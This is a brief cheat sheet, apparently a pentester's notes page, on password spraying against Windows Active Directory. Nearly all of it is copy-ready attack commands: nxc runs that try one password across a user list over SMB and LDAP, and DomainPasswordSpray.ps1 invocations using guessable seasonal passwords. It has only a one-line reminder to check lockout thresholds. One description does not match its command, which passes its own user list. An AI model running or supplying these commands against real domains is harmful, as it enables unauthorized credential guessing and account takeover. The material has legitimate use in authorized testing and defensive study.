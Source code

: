 # Password Spraying
[DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
Check or confirm lockout threshold
## nxc
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
## DomainPasswordSpray
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

